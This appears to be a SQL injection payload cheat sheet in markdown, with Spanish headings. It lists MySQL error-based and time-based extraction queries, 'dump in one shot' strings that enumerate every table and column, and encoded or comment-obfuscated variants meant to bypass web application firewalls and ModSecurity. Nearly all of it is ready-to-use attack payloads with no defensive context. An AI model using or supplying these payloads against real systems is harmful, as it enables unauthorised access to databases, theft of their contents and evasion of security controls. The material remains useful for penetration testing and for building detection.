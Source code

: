```
SELECT TRIM(UpdateXML(table_name, '_Y000_', '1111')) FROM information_schema.tables

SELECT version() FROM (SELECT(SLEEP(5))) a

SELECT * FROM(SELECT COUNT(*),CONCAT(database(),'--',(SELECT (ELT(1=1,version()))),'--','_Y000!_',FLOOR(RAND(1)*1))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x) a

SELECT TRIM(UpdateXML(CONCAT('.',database(),'--',(SELECT (ELT(1=1,@@version))),concat('--',@@datadir)), '_Y000_', '1111'))

SELECT * FROM (SELECT count(*), CONCAT((select json_arrayagg(concat(JSON_OBJECT(concat(JSON_OBJECT(concat(current_user()), concat(@@version))), '_Y000!_')))), 0x23, FLOOR(RAND(0)*1)) AS x FROM information_schema.columns GROUP BY x) y

Select if(now()=sysdate(),(select table_name),0) from information_schema.tables

select json_arrayagg(concat(JSON_OBJECT(concat(JSON_OBJECT(concat(current_user()), concat(@@version))), '_Y000!_')))

SELECT 0 FROM (SELECT count(*), CONCAT((SELECT @@version), 0x23, FLOOR(RAND(0)*4)) AS Y000 FROM information_schema.tables GROUP BY Y000) x

```

## Sql inyection + dios sql

```
/*!u%6eion*/ /*!se%6cect*/+1,concat(@:=0,(select count(*)from information_schema.columns where@:=concat(@,'<br>',table_name,'::',column_name)),@),3..

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x3c62723e,table_name,0x203a3a20,column_name))))x)

CONCAT(Tablas <br>,(SELECT(@x)FROM(SELECT(@x:=0x00),(@NR:=0),(SELECT(0)FROM(INFORMATION_SCHEMA.TABLES)WHERE(TABLE_SCHEMA!=information_schema)AND(0x00)IN(@x:=CONCAT(@x,LPAD(@NR:=@NR%2b1,2,0x30),0x3a20,table_name,0x3c62723e))))x))
```

### Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection

`+and+(select%201)=(Select%200xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....)+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4,....+--+`

### sql inyection payload+ bypass Mod_Security 

```
/*!50000un0x696fn*/+/*!12345AlL*/(/*!50000se0x6c65ct*/+1)+--+

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4...

/*!12345UnioN*//**/(/*!12345seLECT*//**/1)+--

/*!12345#qa%0A#%0AUnIOn*/(/*!12345#qa%0A#%0ASeleCt*//**/1)+--+

/*!50000and*/ /*!50000extractvalue*/(0x0a,/*!50000concat(0x0a,(select JSON_OBJECT(1, current_user())))*/)

```
